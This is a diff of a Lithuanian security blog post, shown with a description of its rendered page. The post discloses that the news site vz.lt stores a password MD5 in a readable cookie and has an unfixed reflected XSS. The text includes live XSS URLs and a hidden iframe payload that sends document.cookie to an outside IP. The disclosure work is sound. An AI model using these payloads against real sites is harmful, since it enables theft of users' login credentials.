

Before and after one commit to JarLob/jarlob.github.io, a Jekyll site: the page built from _posts/2022-12-31-mano-vz.md, in a window 1280 px wide and 900 px high, scrolled down 3363 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
vz fixes

```diff
--- a/_posts/2022-12-31-mano-vz.md
+++ b/_posts/2022-12-31-mano-vz.md
@@ -1,32 +1,32 @@
 ---
 layout:     post
-title:      "Mano VŽ"
+title:      "Kas skaito VŽ slapukus?"
 date:       2022-12-31 08:00:00
 categories: HackAndTell
 cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
-permalink:  /lt/blog/mano-vz
+permalink:  /lt/blog/vz-slapukai
 ---
-Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VZ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:
+Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:
 
 ![Slapukai](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.001.png "Slapukai")
 
 Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.
 
-# Web programų 101
+### Web programų 101
 
 Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.
 
 Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.
 
-# Na ir kas?
+### Na ir kas?
 
-Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino.". Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.
+Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.
 
 Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**
 
-# Ieškome XSS
+### Ieškome XSS
 
-2018-ais esu pranešęs per [NKSC](https://www.nksc.lt/) apie galimybe įterpti Stored XSS akivaizdžioje vietoje - VZ komentaruose. Pabandykime surasti XSS VZ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).
+2018-ais esu pranešęs per [NKSC](https://www.nksc.lt/) apie galimybe įterpti Stored XSS akivaizdžioje vietoje - VŽ komentaruose. Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).
 
 Serveris atsako pranešimu:
 
@@ -46,16 +46,16 @@ Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1
 
 ![Access denied](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.005.png "Access denied")
 
-Panašu, kad VZ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VZ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:
+Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:
 
+- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
 - [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)
-- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
 
-Pirmasis yra "pridengtas" Imperva, tačiau antrasis veikia iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).
+Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikia iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).
 
-# Kas iš to alert?
+### Kas iš to alert?
 
-Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VZ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikia įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas bus pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VZ slapukai jų neturi.
+Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikia įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas bus pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.
 
 Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiųs [vz.lt](https://vz.lt) slapukus trečioms šalims:
 
```
